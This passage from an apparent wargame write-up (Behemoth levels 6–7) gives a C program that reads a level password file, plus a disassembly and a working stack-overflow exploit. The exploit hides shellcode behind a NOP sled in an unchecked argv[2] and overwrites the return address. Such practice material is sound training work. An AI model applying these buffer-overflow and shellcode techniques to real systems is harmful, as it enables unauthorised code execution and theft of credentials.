of =/etc/behemoth_pass/behemoth7= and into =pass.txt=.

#+NAME: X.c
#+BEGIN_SRC c
  #include <stdio.h>

  int main(int argc, char** argv)
  {
    const char* file = "/etc/behemoth_pass/behemoth7";
    FILE* out = fopen("pass.txt", "w");

    if (!out)
      return -1;

    FILE* in  = fopen(file, "r");
    if (!in) {
      fprintf(out, "Failed to open %s", file);
      fclose(out);
      return -1;
    }

    int c;
    while ((c = fgetc(in)) != EOF)
      fprintf(out, "%c", c);

    fclose(out);
    fclose(in);
    return 0;
  }
#+END_SRC

Now we'll assemble, compile, and run.

#+BEGIN_EXAMPLE -n 1
$ mkdir w
$ chmod 777 w
$ cd w
$ touch pass.txt
$ chmod 777 pass.txt
$ nasm -o shellcode.txt -f bin shellcode6.1.asm
$ gcc -m32 -o X X.c
$ /behemoth/behemoth6
Incorrect output.
$ cat pass.txt
XXXXXXXXXX
#+END_EXAMPLE

* Level 7

** The Vulnerability

This level uses the vulnerable =strcpy= function. But it tries to
protect against us running shellcode by zeroing the memory that holds
all the environment variables. It also checks =argv[1]= for
non-alphanumeric characters. If such characters are found, the process
exits before reaching =strcpy=.

Notice I said =argv[1]= is checked. It never checks =argv[2]= and
beyond. Therefore, we can inject our shellcode there. The buffer size
that =argv[1]= is copied into is 524 bytes.

#+BEGIN_EXAMPLE -n 1
0804852b <main>:
 804852b:       55                      push   ebp
 804852c:       89 e5                   mov    ebp,esp
 804852e:       81 ec 0c 02 00 00       sub    esp,0x20c
 8048534:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 8048537:       8b 40 04                mov    eax,DWORD PTR [eax+0x4]
 804853a:       89 45 fc                mov    DWORD PTR [ebp-0x4],eax
 804853d:       c7 45 f8 00 00 00 00    mov    DWORD PTR [ebp-0x8],0x0
 8048544:       eb 3d                   jmp    8048583 <main+0x58>
 8048546:       8b 45 f8                mov    eax,DWORD PTR [ebp-0x8]
 8048549:       8d 14 85 00 00 00 00    lea    edx,[eax*4+0x0]
 8048550:       8b 45 10                mov    eax,DWORD PTR [ebp+0x10]
 8048553:       01 d0                   add    eax,edx
 8048555:       8b 00                   mov    eax,DWORD PTR [eax]
 8048557:       50                      push   eax
 8048558:       e8 73 fe ff ff          call   80483d0 <strlen@plt>
 804855d:       83 c4 04                add    esp,0x4
 8048560:       89 c2                   mov    edx,eax
 8048562:       8b 45 f8                mov    eax,DWORD PTR [ebp-0x8]
 8048565:       8d 0c 85 00 00 00 00    lea    ecx,[eax*4+0x0]
 804856c:       8b 45 10                mov    eax,DWORD PTR [ebp+0x10]
 804856f:       01 c8                   add    eax,ecx
 8048571:       8b 00                   mov    eax,DWORD PTR [eax]
 8048573:       52                      push   edx
 8048574:       6a 00                   push   0x0
 8048576:       50                      push   eax
 8048577:       e8 84 fe ff ff          call   8048400 <memset@plt>
 804857c:       83 c4 0c                add    esp,0xc
 804857f:       83 45 f8 01             add    DWORD PTR [ebp-0x8],0x1
 8048583:       8b 45 f8                mov    eax,DWORD PTR [ebp-0x8]
 8048586:       8d 14 85 00 00 00 00    lea    edx,[eax*4+0x0]
 804858d:       8b 45 10                mov    eax,DWORD PTR [ebp+0x10]
 8048590:       01 d0                   add    eax,edx
 8048592:       8b 00                   mov    eax,DWORD PTR [eax]
 8048594:       85 c0                   test   eax,eax
 8048596:       75 ae                   jne    8048546 <main+0x1b>
 8048598:       c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 804859f:       83 7d 08 01             cmp    DWORD PTR [ebp+0x8],0x1
 80485a3:       0f 8e 9a 00 00 00       jle    8048643 <main+0x118>
 80485a9:       eb 6d                   jmp    8048618 <main+0xed>
 80485ab:       83 45 f4 01             add    DWORD PTR [ebp-0xc],0x1
 80485af:       e8 5c fe ff ff          call   8048410 <__ctype_b_loc@plt>
 80485b4:       8b 10                   mov    edx,DWORD PTR [eax]
 80485b6:       8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 80485b9:       0f b6 00                movzx  eax,BYTE PTR [eax]
 80485bc:       0f be c0                movsx  eax,al
 80485bf:       01 c0                   add    eax,eax
 80485c1:       01 d0                   add    eax,edx
 80485c3:       0f b7 00                movzx  eax,WORD PTR [eax]
 80485c6:       0f b7 c0                movzx  eax,ax
 80485c9:       25 00 04 00 00          and    eax,0x400
 80485ce:       85 c0                   test   eax,eax
 80485d0:       75 42                   jne    8048614 <main+0xe9>
 80485d2:       e8 39 fe ff ff          call   8048410 <__ctype_b_loc@plt>
 80485d7:       8b 10                   mov    edx,DWORD PTR [eax]
 80485d9:       8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 80485dc:       0f b6 00                movzx  eax,BYTE PTR [eax]
 80485df:       0f be c0                movsx  eax,al
 80485e2:       01 c0                   add    eax,eax
 80485e4:       01 d0                   add    eax,edx
 80485e6:       0f b7 00                movzx  eax,WORD PTR [eax]
 80485e9:       0f b7 c0                movzx  eax,ax
 80485ec:       25 00 08 00 00          and    eax,0x800
 80485f1:       85 c0                   test   eax,eax
 80485f3:       75 1f                   jne    8048614 <main+0xe9>
 80485f5:       a1 40 99 04 08          mov    eax,ds:0x8049940
 80485fa:       68 d0 86 04 08          push   0x80486d0
 80485ff:       68 d8 86 04 08          push   0x80486d8
 8048604:       50                      push   eax
 8048605:       e8 e6 fd ff ff          call   80483f0 <fprintf@plt>
 804860a:       83 c4 0c                add    esp,0xc
 804860d:       6a 01                   push   0x1
 804860f:       e8 ac fd ff ff          call   80483c0 <exit@plt>
 8048614:       83 45 fc 01             add    DWORD PTR [ebp-0x4],0x1
 8048618:       8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 804861b:       0f b6 00                movzx  eax,BYTE PTR [eax]
 804861e:       84 c0                   test   al,al
 8048620:       74 09                   je     804862b <main+0x100>
 8048622:       81 7d f4 ff 01 00 00    cmp    DWORD PTR [ebp-0xc],0x1ff
 8048629:       7e 80                   jle    80485ab <main+0x80>
 804862b:       8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 804862e:       83 c0 04                add    eax,0x4
 8048631:       8b 00                   mov    eax,DWORD PTR [eax]
 8048633:       50                      push   eax
 8048634:       8d 85 f4 fd ff ff       lea    eax,[ebp-0x20c]
 804863a:       50                      push   eax
 804863b:       e8 70 fd ff ff          call   80483b0 <strcpy@plt>
 8048640:       83 c4 08                add    esp,0x8
 8048643:       b8 00 00 00 00          mov    eax,0x0
 8048648:       c9                      leave
 8048649:       c3                      ret
#+END_EXAMPLE

** The Exploit

After we assemble our shellcode, we're going to use a nop sled to make
life easier.

#+BEGIN_EXAMPLE -n 1
$ nasm -f bin -o shellcode.bin shellcode.asm
$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"* 1024)' > sled.bin
$ cat sled.bin shellcode.bin > shellcode
#+END_EXAMPLE

Now we need the memory address of =argv[2]=.

#+BEGIN_EXAMPLE -n 1
(gdb) b main
Breakpoint 1 at 0x8048534
(gdb) r $(python3 -c 'print("A" * 528, end="")') $(cat shellcode)
Starting program: /behemoth/behemoth7 $(python3 -c 'print("A" * 528, end="")') $(cat shellcode)

Breakpoint 1, 0x08048534 in main ()
(gdb) x/4wx $ebp
0xffffcf48:     0x00000000      0xf7e2a286      0x00000003      0xffffcfe4
(gdb) x/3wx 0xffffcfe4
0xffffcfe4:     0xffffd142      0xffffd156      0xffffd367
(gdb) x/s 0xffffd156
0xffffd156:     'A' <repeats 200 times>...
(gdb)
#+END_EXAMPLE

=0xffffd367= is the address of our shellcode. Because we have a nop
sled, I'm just going to estimate it as =0xffffd401=.

#+BEGIN_EXAMPLE -n 1
$ /behemoth/behemoth7 $(python3 -c 'print("A" * 528, end="")'; printf "\x01\xd4\xff\xff") $(cat shellcode)
XXXXXXXXXX
#+END_EXAMPLE

